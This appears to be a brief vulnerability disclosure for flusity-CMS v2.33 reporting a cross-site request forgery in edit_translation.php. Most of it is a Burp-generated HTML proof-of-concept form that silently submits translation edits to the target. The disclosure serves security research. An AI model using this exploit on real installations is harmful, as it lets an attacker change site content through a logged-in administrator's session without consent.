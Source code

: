 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /core/tools/edit_translation.php

![1](https://github.com/yuan520a/cms/assets/61750167/2efb35de-6d2b-4287-aa12-3cd98bb4261e)

Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/edit_translation.php" method="POST">
      <input type="hidden" name="edit&#95;id" value="237" />
      <input type="hidden" name="language&#95;code" value="lt" />
      <input type="hidden" name="new&#95;language&#95;code" value="" />
      <input type="hidden" name="translation&#95;key" value="cs123" />
      <input type="hidden" name="translation&#95;value" value="cs" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![2](https://github.com/yuan520a/cms/assets/61750167/309bb7df-3d34-49fe-99e5-58061061903b)


Successed

![3](https://github.com/yuan520a/cms/assets/61750167/ae5b36b5-e6d0-42df-8ac6-243fa00a5c70)
